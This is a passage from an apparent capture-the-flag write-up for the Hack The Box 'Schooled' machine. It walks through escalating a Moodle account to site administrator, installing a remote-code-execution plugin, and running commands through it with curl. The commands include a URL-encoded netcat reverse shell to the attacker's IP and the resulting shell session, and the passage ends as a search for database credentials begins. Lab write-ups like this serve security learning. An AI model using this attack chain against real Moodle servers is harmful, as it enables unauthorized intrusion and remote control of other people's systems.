 
  {"success":true,"response":{},"error":"","count":1}

We get a success! We can now see in the list of Participants that we got both Lianne and Manuel as a Manager Role.

First / Surname	  Email address                         Roles               Groups      Last access to course
Lianne Carter	    carter_lianne@staff.schooled.htb	    Student, Manager 	  No groups	  Never
Manuel Phillips	  phillips_manuel@staff.schooled.htb	  Manager, Teacher 	  No groups	  now

Press on 'Lianne Carter' to go to her profile and within you'll find Administration and 'Log in as'. Press that and
you'll now have access as Lianne which gives us access to 'Site administration' in the left menu bar.


5. Going to 'Site administration' > Plugins we notice that we don't have any options available to upload a file.

Go to Users > Permission, Define Roles > Manager > Edit.
Scroll down in the list of options and enable 'Change site configuration'.

Go back to Site administration > Plugins and you'll now have 'Install plugins' as an option.

Download rce.zip from 'https://github.com/HoangKien1020/Moodle_RCE' and upload it, press 'Install plugin from ZIP file'.
Moodle will validate the file and you have to press 'Continue'.

The plugin should now be uploaded and installed. Quickly execute your exploit through the url as this is reset frequently.
[root:/git/htb/schooled]# curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php\?cmd\=id                        (master✱)
  uid=80(www) gid=80(www) groups=80(www)

Testing different one-line-reverse and I got netcat to work.

[root:/git/htb/schooled]# curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.8%204488%20%3E%2Ftmp%2Ff
[root:/git/htb/schooled]# nc -lvnp 4488                                                                                           (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.8] from (UNKNOWN) [10.10.10.234] 45345
  sh: can't access tty; job control turned off
  $ id
    uid=80(www) gid=80(www) groups=80(www)
  $ pwd
    /usr/local/www/apache24/data/moodle/blocks/rce/lang/en


6. Lets start by looking for sensitive files. Moodle use MySQL to store it's userdata, so we can probably find a file
containing MySQL creds.

  $ pwd
    /usr/local/www/apache24/data/moodle
